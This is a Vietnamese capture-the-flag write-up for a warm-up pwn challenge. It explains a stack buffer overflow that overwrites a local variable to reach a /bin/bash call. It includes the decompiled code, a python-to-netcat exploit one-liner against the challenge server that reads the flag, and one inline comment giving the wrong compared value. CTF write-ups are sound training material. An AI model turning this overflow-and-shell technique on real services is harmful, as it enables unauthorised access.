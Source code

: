 ## ⚡ [mybirthday](https://ctf.hcmus.edu.vn/challenges#mybirthday-5)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/25-pts-brightgreen.svg)](https://img.shields.io/badge/25-pts-brightgreen.svg)

Tác giả: `pakkunandy`

Tags: `pwn` `bof`

### Challenge Description

Can you guess my birthday? Or you can just gimme the flag :)

nc 61.28.237.24 30200

### Summary

Đây là challenge về buffer overflow vào biến local.  

### Exploit

Hàm main:

```c
undefined4 main(void)

{
  undefined local_2c [24];
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = -0x1101002;
  setup();
  puts("Tell me your birthday?");
  read(0,local_2c,0x1e); # read 30 bytes
  if (local_14 == -0x35440101) { # compare to 0xfeefeffe
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  return 0;
}
```

Ta thấy biến `local_2c` có kích thước 24 bytes, nhưng hàm read lại đọc 30 bytes. Vậy ta có thể đọc và ghi đè lên vùng nhớ của biến `local_14`, để biểu thức thỏa và có được shell. Sau đó chỉ việc gọi lệnh cat để đọc flag.

```bash
$ python2 -c 'print "A"*24 + "\xff\xfe\xbb\xcaAAcat flag.txt"' | nc 61.28.237.24 30200

Tell me your birthday?
HCMUS-CTF{Just_A_Warm_Up_Pwn}
```

📫 Flag: **`HCMUS-CTF{Just_A_Warm_Up_Pwn}`**

---
*[Back to table of contents](../README.md)*

